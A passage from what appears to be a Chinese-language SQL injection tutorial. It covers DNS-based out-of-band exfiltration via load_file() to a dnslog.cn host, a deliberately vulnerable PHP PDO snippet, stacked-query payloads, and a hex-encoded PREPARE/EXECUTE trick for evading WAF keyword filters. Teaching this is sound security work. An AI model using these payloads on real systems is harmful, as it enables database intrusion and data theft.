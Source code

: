 而很遗憾，secure_file_priv的默认状态是NULL，但当Web应用本身使用了LOAD_FILE函数时，secure_file_priv通常会被设为空，此时就可以进行OOB了。

```sql
select load_file(concat('\\\\',hex((select database())),'.kylnth.dnslog.cn/abc')); 
# hex()将值转为16进制，/abc的目的是让load_file去加载abc资源
```

上述命令中的dnslog.com为安全人员拥有的网站，此条命令只会在dnslog.com的DNS服务器上留下解析记录，不会在网站服务器上留下访问日志。因此dnslog.com需要添加一条DNS记录，指向自建的DNS服务器，安全人员通过查看该自建DNS服务器的DNS解析记录即可获取该数据库当前用户名的hex编码，之后进行解码操作即可。进行hex编码是为了避免有域名允许范围之外的字符出现。关于load_file()函数域名解析：https://www.freebuf.com/articles/web/259023.html



### PDO中的多条执行

PDO是PHP官方提供的预编译解决方案，之所以不讲这个绕过姿势放在下篇预编译的章节中，是因为这不是PDO本身的绕过，而是错误使用PDO时对WAF的绕过。在PHP代码审计中，常常会见到PDO的不正确使用方式，如：

```sql
$pdo = new PDO("mysql:host=127.0.0.1;dbname=nowcoder;charset=gbk","root","123456");
$id = $_GET['id'];
$query = "SELECT * FROM nowcoder WHERE id = $id";
$stmt = $pdo->prepare($query);
$stmt->execute();
$r = $stmt->fetch();
print_r($r);
```

虽然使用了PDO，看起来也使用prepare进行了预编译，但其实参数id仍然是拼接进去的，并没有用到防止预编译的根本性操作——参数绑定。这是开发人员对于PDO特性的不理解所导致的后果，造成了SQL注入。如果在这样一个场景中，外层有非常牛逼的硬WAF或者软WAF，使用极为严格的过滤规则将常见关键字如SELECT、UPDATE、INSERT等全部过滤，甚至连逗号也不放行，我们应该如何绕过并进行注入？

PDO有一个有趣的特性：默认可以支持多条SQL执行。即我们完全可以在参数中传入1;SELECT user(), version()来注入新的SQL，但这里有一个问题，那就是仅有第一条SQL语句的结果会显示在页面上，即使我们注入的第二条SQL被执行，也无法获取其结果。不过没关系，我们可以使用INSERT或UPDATE语句，将数据插入到表中再查询出来。如nowcoder表中只有两条数据：

```sql
id  name
------------
1  niumei
2  dalao
```

我们就可以通过执行以下Payload将数据库版本插入为第三条语句：

```sql
1;INSERT nowcoder VALUES(3,version());
```

然后再使id=3将其查询出来即可。回到我们刚刚的问题，如何绕过严格过滤的WAF？我们可以利用MySQL的PREPARE关键字对INSERT语句做一个预编译，然后通过EXECUTE关键字执行预编译好的语句：

```sql
PREPARE a FROM 'INSERT nowcoder VALUES(4,version())';
EXECUTE a;
```

当然，这还是没有解决过滤关键字的问题，我们可以利用MySQL的特性，将真正的SQL语句使用hex函数转为16进制：

```sql
SET @x= 0x494E53455254206E6F77636F6465722056414C55455328342C76657273696F6E282929;
PREPARE a FROM @x;
EXECUTE a;
```
